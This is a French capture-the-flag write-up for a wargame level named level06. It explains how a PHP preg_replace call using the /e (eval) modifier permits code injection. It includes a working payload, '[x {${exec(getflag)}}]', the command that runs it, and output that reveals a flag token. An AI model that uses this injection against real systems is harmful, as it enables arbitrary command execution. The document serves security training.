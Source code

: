 On trouve dans le dossier home un binaire nommé **level06** et un fichier php nommé **level06.php** contenant le code suivant :
```php
#!/usr/bin/php
<?php
function y($m) {
	$m = preg_replace("/\./", " x ", $m);
	$m = preg_replace("/@/", " y", $m);
	return $m;
}
function x($y, $z) {
	$a = file_get_contents($y);
	$a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
	$a = preg_replace("/\[/", "(", $a);
	$a = preg_replace("/\]/", ")", $a);
	return $a;
}
$r = x($argv[1], $argv[2]);
print $r;
?>
```
> La partie interessante dans le code est <code>/(\[x (.*)\])/e</code> car le preg_replace utilise le modifier **/e** ou **(PREG_REPLACE_EVAL)**, qui est connu pour etre sensible aux injections (Il n'existe meme plus en PHP 7.0.0)

On comprend que le format pour la string recupérée du <code>file_get_contents</code> doit etre formaté de la manière suivante:

<code>/(\[x (.*)\])/e => [x {${INJECTION}}]</code>

L'injection permet de remplacer le <code>(.*)</code> par une commande, comme par exemple **getflag**:

<pre><code>> echo '[x {${exec(getflag)}}]' > /tmp/inject
> ./level06 /tmp/inject
PHP Notice:  Use of undefined constant getflag - assumed 'getflag' in /home/user/level06/level06.php(4) : regexp code on line 1
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub in /home/user/level06/level06.php(4) : regexp code on line 1
</code></pre>

